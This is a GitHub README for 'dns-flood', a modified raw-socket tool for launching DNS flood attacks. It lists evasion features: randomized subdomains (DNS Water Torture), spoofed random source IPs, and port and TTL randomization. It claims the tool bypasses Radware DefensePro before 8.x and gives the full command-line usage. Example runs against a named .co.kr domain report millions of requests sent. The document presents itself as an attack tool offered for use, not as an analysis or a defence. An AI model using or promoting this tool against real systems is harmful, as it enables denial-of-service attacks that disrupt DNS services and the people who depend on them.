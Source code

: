 # dns-flood
Original DNS-Flood tool found on code.google.com

This is modified version od DNS-Flood tool. 
Use raw sockets to generate DNS flood attack.

Original Here: https://code.google.com/p/dns-flood/

In contrast to original tool it provides:
  - subdomain part of query randomization aka DNS Water Torture
  - source port and TTL randomization
  - additional query types like AAAA and MX
  - DNSSEC query support

The tool is able to bypass Radware DefensePro SW version prior to 8.x.

## How to install

1. Clone Repo
2. Run Make
3. Enjoy Kittens
 
## How to run

Usage:
```bash
./dnsflood <query_name> <destination_ip> [options]  
	Options:  
	-t, --type		query type  
	-s, --source-ip		source ip  
	-p, --dest-port		destination port  
	-P, --src-port		source port  
	-i, --interval		interval (in microseconds) between two packets  
	-n, --number		number of DNS requests to send   
	-d, --duration      run for at most this many seconds   
	-r, --random		fake random source IP  
	-S, --dnssec        make a dnssec query
	-D, --daemon		run as daemon  
	-h, --help          print this message   
```
Example:
```bash
$ ./dnsflood abf.auction.co.kr 127.0.0.1 -d 30
sent 5333186 DNS requests in 30.000000 sec.
$
$ ./dnsflood abf.auction.co.kr 10.40.196.84 -n 5000000
sent 5000000 DNS requests in 28.000000 sec.
$
```

## Credits for original version

Original DNS-Flood tool found on code.google.com

Use raw sockets to generate DNS flood attack.

Original Here: https://code.google.com/p/dns-flood/

